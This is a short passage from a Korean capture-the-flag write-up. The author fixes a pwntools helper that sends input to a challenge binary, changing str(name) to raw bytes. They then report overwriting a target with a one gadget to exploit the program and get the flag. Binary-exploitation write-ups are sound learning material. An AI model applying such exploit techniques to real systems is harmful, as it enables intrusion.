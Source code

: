 ![Untitled](SF7_asset/Untitled_16.png)

어림도 없지

뭐지,,, 왜 modify가 되지 않는거지,,

아! change 함수가 틀렸었다!!
```python
def change(name):
    p.recvuntil("> ")
    p.sendline("5")
    p.recvuntil(" : ")
    p.send(str(name))
```
이었지만

```python
def change(name):
    p.recvuntil("> ")
    p.sendline("5")
    p.recvuntil(" : ")
    p.send(name)
```
으로 변경하고 one gadget으로 덮은 결과 exploit에 성공하였다.

![Untitled](SF7_asset/flag.PNG)

༼ つ ◕_◕ ༽つ